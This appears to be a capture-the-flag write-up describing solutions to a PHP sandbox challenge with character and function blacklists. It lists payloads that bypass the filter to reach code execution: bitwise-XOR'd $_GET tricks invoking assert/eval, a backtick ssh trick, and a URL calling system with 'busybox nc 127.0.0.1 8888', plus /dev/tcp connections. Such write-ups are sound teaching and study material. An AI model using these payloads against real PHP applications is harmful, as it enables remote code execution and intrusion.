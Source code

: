 # Type
PHP CTF-style challenge.
How to construct command following the rules.
Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

There are serveral solutions:
1. Run multiple commands which does following steps:
    * Create a temporary file containing chunks (by using: printf/echo/...)
    * Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
2. It ... surprised me 
    * ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
    * Using `ssh` and blackslash
3. PHP syntax abusing: By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
    * `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
    * Also see kad96/fa_boy solutions.
    * `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
